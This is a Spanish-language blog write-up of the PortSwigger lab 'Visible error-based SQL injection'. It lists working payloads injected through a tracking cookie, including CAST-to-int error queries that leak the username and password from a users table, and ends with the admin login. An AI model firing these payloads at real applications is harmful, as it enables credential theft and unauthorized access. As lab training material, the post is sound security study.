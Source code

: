 ```yaml
---
title: "18 Visible error-based SQL injection"
collection: publications
category: portswigger
permalink: /publications/SQLi/18_Visible error-based SQL injection
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL. La aplicación utiliza una cookie de seguimiento para análisis y realiza una consulta SQL que contiene el valor de la cookie enviada. No se devuelven los resultados de la consulta SQL.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Visible error-based SQL injection'
---
```


![logo]({{site.url}}/images/SQLi/sqli-18/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-18/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, encuentra la forma de filtrar la contraseña del usuario administrador y, a continuación, accede a su cuenta.

## Buscamos el vector de ataque

Realizamos busqueda de URL's que realicen consulta a la BD para ver si es una posible realizar un ataque de SQLi.

![Vector]({{site.url}}/images/SQLi/sqli-18/vector.png)

## Probamos que el TrackingId es vulnerable

```sql
'--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-18/vulnerable.png)

## Obtenemos cantidad de columnas

```sql
' ORDER BY 1--
```

![Columnas]({{site.url}}/images/SQLi/sqli-18/columnas.png)

## Miramos que sea de tipo String

```sql
' UNION SELECT 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-18/string.png)

## Obtener el primer usuario de la tabla users

```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1) as int)--
```

![Usuario]({{site.url}}/images/SQLi/sqli-18/primer usuario.png)

## Obtener el password del primer usuario

```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) as int)--
```

![Password]({{site.url}}/images/SQLi/sqli-18/password.png)

## Login

![Login]({{site.url}}/images/SQLi/sqli-18/login.png)

## Resuelto

![Resuelto]({{site.url}}/images/SQLi/sqli-18/resuelto.png)
